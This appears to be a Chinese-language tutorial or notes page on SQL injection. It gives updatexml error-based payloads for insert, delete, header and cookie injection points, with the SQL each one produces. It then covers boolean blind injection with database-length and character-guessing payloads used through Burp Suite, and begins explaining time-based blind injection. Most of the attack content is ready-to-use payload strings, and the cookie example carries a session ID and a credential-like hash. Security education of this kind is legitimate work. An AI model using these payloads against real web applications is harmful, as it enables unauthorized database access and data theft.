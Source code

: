 ```sql

# insert型
username=sky' and updatexml(1,concat(0x7e,version()),1) or '&password=123123&sex=1&phonenum=123&email=123&add=123&submit=submit
SQL:insert into user vlues('sky' and updatexml(1,concat(0x7e,version()),1) or '',password,xx,xx,xx)

# delete型
id=61 and updatexml(1,concat(0x7e,database()),1)
SQL:delete from user where id=61 and updatexml(1,concat(0x7e,database()),1);

# Header型
pyload' or updatexml(1,concat(0x7e,version()),1) or '
SQL:insert into info vlues('pyload' or updatexml(1,concat(0x7e,version()),1) or '',xx,xx,xx,xx)

# Cookie型
Cookie: ant[uname]=admin' or updatexml(1,concat(0x7e,version()),1) or ';
ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=165edlt61tcbb4rtocpniultdq

SQL:insert into info vlues('admin' or updatexml(1,concat(0x7e,version()),1) or '',10470c3b4b1fed12c3baac014be15fac67c6e815,165edlt61tcbb4rtocpniultdq)
```

### 盲注

#### 布尔盲注

布尔盲注一般适用于页面没有回显字段(不支持联合查询)，且web页面返回True 或者 false，构造SQL语句，利用and，or等关键字来其后的语句 `true` 、 `false`使web页面返回true或者false，从而达到注入的目的来获取信息。

猜测database长度Pyload：

```
admin' and length(database())=1 #
需要利用burpsuite进行sniper达到猜测长度的目的
```

猜测database每个具体字母或数字Pyload：

```
admin' and ascii(substr(database(),1,1))>48 #
admin' and ascii(substr(database(),7,1))>120 #
'1'和'48'为sniper点
```

#### 时间型盲注

注入SQL 代码之后， 存在以下两种情况：

- 如果注入的SQL代码不影响后台[ 数据库] 的正常功能执行， 那么Web 应用的页面显示正确（ 原始页面） 。
- 如果注入的SQL 代码影响后台数据库的正常功能（ 产生了SQL 注入） ， 但是此时Web 应用的页面依旧显示正常（ 原因是Web 应用程序采取了“ 重定向" 或“ 屏蔽 ”措施）。

产生一个疑问： 注入的SQL 代码到底被后台数据库执行了没有？ 即web 应用程序是否存在SQL 注入？
面对这种情况， 之前讲的基于布尔的SQL 盲注很难发挥作用了（ 因为基于布尔的SQL 盲注的前提是web 程序返回的页面存在true 和false 两种不同的页面） 。这时，一般采用基于web 应用响应时间上的差异来判断是否存在SQL 注入， 即基于时间型SQL 盲注。
